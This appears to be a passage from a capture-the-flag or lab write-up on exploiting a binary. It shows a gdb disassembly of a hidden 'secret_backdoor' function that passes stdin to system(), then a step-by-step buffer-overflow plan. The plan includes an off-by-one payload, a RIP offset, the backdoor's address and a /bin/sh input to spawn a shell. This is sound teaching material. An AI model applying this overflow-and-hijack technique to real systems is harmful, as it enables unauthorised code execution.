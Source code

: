 ## Hidden Function Discovery

<CodeBlock 
  title="Secret Backdoor Function"
  command="(gdb) disas secret_backdoor"
  output={`0x000055555555488c <secret_backdoor>:
   push   %rbp
   mov    %rsp,%rbp
   ...
   fgets(buf, 128, stdin)    ; Read command from stdin
   ...
   system(buf)               ; Execute command directly!
   ...`}
/>

**Backdoor Functionality:**
- Reads command from stdin (128 bytes max)
- Passes input directly to `system()` call
- Perfect target for RIP hijacking

## Exploitation Strategy

<StepsList
  title="Multi-Stage Buffer Overflow"
  steps={[
    {
      title: "Corrupt Length Field",
      description: "Use off-by-one overflow to increase strncpy() length",
      command: "'A' * 40 + '\\xd4'",
      result: "len becomes 212 instead of 140"
    },
    {
      title: "Calculate RIP Offset",
      description: "Determine how many bytes needed to reach saved RIP",
      command: "text[140] + padding = 200 bytes to RIP",
      result: "RIP overwrite position identified"
    },
    {
      title: "Target Hidden Function",
      description: "Redirect execution to secret_backdoor()",
      command: "RIP = 0x000055555555488c",
      result: "Execution redirected to backdoor"
    },
    {
      title: "Provide Shell Command",
      description: "Input /bin/sh when backdoor reads from stdin",
      command: "system(\"/bin/sh\")",
      result: "Shell spawned with elevated privileges"
    }
  ]}
/>
